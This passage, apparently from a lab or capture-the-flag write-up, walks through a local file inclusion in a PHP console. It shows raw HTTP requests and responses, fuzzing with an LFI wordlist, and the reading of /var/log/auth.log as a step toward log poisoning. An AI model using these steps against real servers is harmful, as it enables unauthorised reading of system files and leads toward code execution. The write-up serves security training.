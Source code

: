 > Yay it works! Now lets check if we might have have a local file inclusion.
{: .prompt-info }

If we try to load the file `file.php` itself the server responds with an error.

```http
GET /console/file.php?file=file.php HTTP/1.1
Host: 192.168.103.80
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```http
HTTP/1.0 500 Internal Server Error
Date: Wed, 11 Jan 2023 21:55:17 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

The server responds with a `500` error. This indicates that the server tried to interpret the `PHP` code but failed.  

So in the next step we try to identify files on the server we can include and are prone to a poising attack, by injecting `PHP` code in them and then reading them with the identified `LFI`.

We are using a `seclists` wordlist via the `LFI` to idenfity which files we can access. Therefore we use the burp intruder with the `/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt`  wordlist.
Burp identified several files which can be read.  

> Interesting is the file `/var/log/auth.log` as it can be used in a log poisoning vector.
{: .prompt-info }

```http
GET /console/file.php?file=%2fvar%2flog%2fauth%2elog HTTP/1.1
Host: 192.168.103.80
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Wed, 11 Jan 2023 21:43:48 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 3980
Connection: close
Content-Type: text/html; charset=UTF-8

Sep  2 05:09:55 ubuntu sshd[360]: Received signal 15; terminating.
Oct 17 19:30:24 ubuntu systemd-logind[370]: New seat seat0.
Oct 17 19:30:24 ubuntu systemd-logind[370]: Watching system buttons on /dev/input/event0 (Power Button)
Oct 17 19:30:24 ubuntu systemd-logind[370]: Watching system buttons on /dev/input/event1 (AT Translated Set 2 keyboard)
```